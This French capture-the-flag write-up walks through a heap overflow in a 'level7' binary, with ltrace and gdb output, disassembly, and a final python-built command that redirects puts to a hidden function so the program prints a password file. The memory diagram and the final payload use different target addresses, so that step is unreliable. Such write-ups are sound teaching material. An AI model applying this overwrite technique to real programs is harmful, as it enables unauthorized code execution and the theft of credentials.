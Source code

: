 # Malloc Exploitation

En décompilant l'exécutable, on remarque plusieurs appels à `malloc`, et deux appels à `strcpy`. À la fin du programme, l'exécutable fait un appel à `puts`, juste après avoir ouvert le fichier `.pass` avec `fopen`. La fonction qui `m`, qui n'est jamais appelée, nous permettrait d'afficher le contenu de `.pass` à partir de la variable `c`.

Notre but est donc de remplacer l'adresse de la fonction `puts`, par l'adresse de la fonction `m`. Pour cela, commençons par trouver les adresses retournés par `malloc`. Nous pourrions le faire avec `gdb` comme dans l'exercice précédent, mais `ltrace` nous permet de le faire plus rapidement.
```
> ltrace ./level7
__libc_start_main(0x8048521, 1, 0xbffff7e4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                 = 0x0804a008
malloc(8)                                                                 = 0x0804a018
malloc(8)                                                                 = 0x0804a028
malloc(8)                                                                 = 0x0804a038
strcpy(0x0804a018, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
Nous savons donc que nos allocations commencent à partir de `0x0804a008`. Les premières instructions du programmes sont importantes, car elle lui permettent d'écrire des adresses mémoires dans nos `buffers` de `malloc`.
```c
puVar1 = (undefined4 *)malloc(8);
*puVar1 = 1;
uVar2 = malloc(8);
puVar1[1] = uVar2;
puVar3 = (undefined4 *)malloc(8);
*puVar3 = 2;
uVar2 = malloc(8);
puVar3[1] = uVar2;
```
Passons à présent sur `gdb` et imprimons la nos emplcament mémoires alloués par `malloc` juste avant le premier appel à `strcpy`.
```
> gdb level7 --args "AAAA" "BBBB"
[...]
> (gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    
End of assembler dump.
> (gdb) b *0x080485a0
Breakpoint 1 at 0x80485a0
> (gdb) r
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485a0 in main ()
```
```
> (gdb) x/20wx 0x804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
            ^           ^
            *puVar1 = 1 puVar1[1] = uVar2
                        
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
            ^           ^
            *puVar3 = 2 puVar3[1] = uVar2
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
```
Nous allons donc profiter du double appel à `strcpy` pour remplacer l'adresse de la fonction `puts` par l'adresse de la fonction `m`. Pour cela, il faut comprendre le fonctionnement des deux `strcpy`.

---

**Premier `strcpy`**

Copie notre premier argument à l'adresse contenue dans `puVar1[1]`.
```c
strcpy(puVar1[1], envp[1]);
```

**Deuxième `strcpy`**

Copie notre deuxième argument à l'adresse contenue dans `puVar3[1]`.
```c
strcpy(puVar3[1], envp[2]);
```

On peut visuellement le représenter de cette manière :

```
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
                        ^
                        adresse de copie
                        du premier strcpy           
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
            ^
            le premier strcpy
            copie ici
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
                        ^
                        adresse de copie
                        du deuxième strcpy
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
            ^
            le deuxième strcpy
            copie ici
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
```

---

Notre objectif est donc de remplacer l'adresse contenue dans `puVar3[1]` par l'adresse de la fonction `puts` et ansi, "tromper" le second `strcpy` en le faisant copier à l'adresse de la fonction `puts`. Pour cela, on peut créer un `overflow` grace au premier `strcpy` et ainsi écraser l'adresse de copie du deuxième `strcpy`.

Notre premier argument doit donc contenir un certains nombre de caractères pour atteindre l'adresse de copie du deuxième `strcpy`, ainsi que l'adresse de la fonction `puts`.

---

On peut obtenir les adresses des fonctions `puts` et `m` avec `gdb`.

**Fonction `puts`**

```
> (gdb) disas main
[...]
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
[...]
```
L'adresse de la fonction `puts` est `0x8048400`.

**Fonction `m`**

```
> (gdb) x m
0x80484f4 <m>:	0x83e58955
```
L'adresse de la fonction `m` est `0x80484f4`.

---

Visuellement, voici à quoi doit ressembler la mémoire après l'appel au premier `strcpy` :
```
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011           
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
            ^
            le premier strcpy
            copie ici
0x804a028:	0x41414141	0x08048400	0x00000000	0x00000011
                        ^
                        adresse de copie
                        du deuxième strcpy
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
```

En deuxième arguement, nous avons simplement à fournir l'adresse de la fonction `m`. Finalement, voici la commande à exécuter :
```
./level7 `python -c 'print "A"*20 + "\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
```

